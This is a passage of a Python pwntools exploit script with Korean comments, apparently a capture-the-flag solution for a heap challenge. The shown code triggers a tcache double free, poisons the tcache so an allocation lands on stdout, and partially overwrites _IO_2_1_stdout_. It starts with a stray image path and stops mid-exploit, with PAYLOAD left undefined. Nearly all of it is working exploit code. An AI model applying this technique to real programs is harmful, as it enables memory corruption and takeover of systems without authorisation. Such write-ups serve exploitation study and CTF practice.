     # edit chunk1 (already freed)
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk:', b'A' * 8 + b'\x00')  # corrupt tcache_entry to free again

    # free chunk1 again <- Doubly Free Bug
    p.sendlineafter(b'Edit\n', b'2')
    # 이제 tcache 에는 동일한 메모리 주소를 가리키는 두 개의 chunk 가 생겼다.
    # tcache: (*) -> chunk1 -> chunk1
    # --------------------------

    ###############
    # 2. Poison tcache 
    ###############
    offset_stdout = e.symbols['stdout']
    print('offset_stdout:', hex(offset_stdout))

    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'50')
    p.sendafter(b'Content:', p64(offset_stdout))


    # tcache: (*) -> chunk1 -> stdout -> _IO_2_1_stdout_ -> ... 
    # --------------------------

    # pop chunk1 from  tcache
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'50')
    p.sendafter(b'Content:', PAYLOAD.encode())

    # tcache: (*) -> stdout -> _IO_2_1_stdout_ -> ... 
    # --------------------------

    # pop stdout
    # stdout 의 실제 값에 영향을 주지 않고 프로그램 로직을 통해 tcache 에서 stdout 를 pop 하려면
    # _IO_2_1_stdout_ 값을 그대로 write 해주면서 alloc 을 해야한다. 
    # 전체를 write 하는 대신 마지막 byte 하나만 덮어써도 문제 없다.
    lsb_of__IO_2_1_stdout_ = p64(lib.symbols['_IO_2_1_stdout_'])[0:1] # least significant byte of _IO_2_1_stdout_
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size:', b'50')
    p.sendafter(b'Content:', lsb_of__IO_2_1_stdout_)
    print('lsb_of__IO_2_1_stdout_:', lsb_of__IO_2_1_stdout_)

